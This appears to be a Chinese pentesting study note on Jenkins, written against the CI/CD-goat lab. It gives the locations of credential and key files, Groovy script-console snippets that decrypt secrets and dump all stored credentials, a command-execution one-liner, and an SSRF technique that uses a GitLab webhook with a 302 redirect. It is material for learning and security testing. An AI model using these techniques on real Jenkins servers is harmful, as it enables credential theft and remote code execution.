


# Jenkins

## 为Gitlab配置Jenkins

使用CI-CD goat中的gitlab和Jenkins作为基础环境。首先要参考[使用 GitLab + Jenkins 实现持续集成（CI）环境](https://blog.csdn.net/weixin_46902396/article/details/118337250) 中的一些基础步骤，但是问题是现在的Jenkins似乎找不到gitlab的相关插件了，webhook也只有Generic Webhook Trigger这个插件。

因此安装文章中的基础配置走，例如配置ssh等。


在配置`Build Triggers`的时候需要改成`Generic Webhook Trigger`并设置token：



gitlab那里的webhook需要带上token：



这时候gitlab发生了对应的事件，Jenkins那边就会自动构建了。如果要设置pipeline，那就创建为Pipeline的Job再设置即可。

## Credentials凭据

Jenkins 将加密凭证存储在`credentials.xml`文件或`config.xml`. 要解密它们，您需要`master.key`和`hudson.util.Secret`文件。

所有文件都位于 Jenkins 主目录中：

```
$JENKINS_HOME/credentials.xml 
$JENKINS_HOME/secrets/master.key
$JENKINS_HOME/secrets/hudson.util.Secret
$JENKINS_HOME/jobs/example-folder/config.xml - Possible location
```


可以使用工具https://github.com/hoto/jenkins-credentials-decryptor。

如果有script console，也可以利用script console解密：

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))

com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```


## Script Console

位于`/script`。获得可以执行script console的用户权限的时候，可以在这里执行Groovy脚本：


**RCE：**

```groovy
println "whoami".execute().text
```


**解密凭据：**

```groovy
println(hudson.util.Secret.fromString("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}").getPlainText())

println(hudson.util.Secret.decrypt("{AQAAABAAAAAw7KtB5kDGICXLmcURPTCV8NDtibl+a3Ypl1gXtLcmTjg7i6yiKQDCe+x0/CZZXEYkmqe92wPC4o8mKwJtZbgYXg==}"))
```


也可以利用下面的命令解析：

```groovy
com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```

## attacked by webhook

通过gitlab的webhook访问自己设置的302跳转的服务器将post请求变成get请求后打内网的jenkins。


## Jenkins Security

参考https://cloud.hacktricks.xyz/v/cn-cloud/pentesting-ci-cd/jenkins-security ，已经很全面了。

## 参考

https://www.freebuf.com/articles/web/376186.html